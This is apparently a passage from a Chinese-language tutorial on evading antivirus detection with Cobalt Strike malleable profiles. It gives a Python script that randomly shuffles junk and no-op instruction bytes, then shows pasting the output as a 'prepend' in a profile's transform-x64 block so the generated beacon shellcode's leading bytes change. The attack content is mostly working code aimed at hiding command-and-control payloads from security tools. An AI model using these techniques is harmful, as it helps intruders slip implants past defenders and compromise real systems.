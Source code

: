 

我们可以使用一个简单的python脚本，来实现对上述汇编指令的随机组合

```python
import random

# Define the byte strings to shuffle
byte_strings = ["40", "41", "42", "6690", "40", "43", "44", "45", "46", "47", "48", "49", "", "4c", "90", "0f1f00", "660f1f0400", "0f1f0400", "0f1f00", "0f1f00", "87db", "87c9", "87d2", "6687db", "6687c9", "6687d2"]

# Shuffle the byte strings
random.shuffle(byte_strings)

# Create a new list to store the formatted bytes
formatted_bytes = []

# Loop through each byte string in the shuffled list
for byte_string in byte_strings:
    # Check if the byte string has more than 2 characters
    if len(byte_string) > 2:
        # Split the byte string into chunks of two characters
        byte_list = [byte_string[i:i+2] for i in range(0, len(byte_string), 2)]
        # Add \x prefix to each byte and join them
        formatted_bytes.append(''.join([f'\\x{byte}' for byte in byte_list]))
    else:
        # Add \x prefix to the single byte
        formatted_bytes.append(f'\\x{byte_string}')
        
# Join the formatted bytes into a single string
formatted_string = ''.join(formatted_bytes)

# Print the formatted byte string
print(formatted_string)
```



将python脚本代码生成的花指令写入我们的Profile文件中

```
transform-x64 {
        ...
        prepend "\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
        ...
}
```



再次生成shellcode时，你会发现前面的字节(MZ头前面所有字节)发生了变化

![img](利用CS的Profile文件实现免杀/image-4.png)	

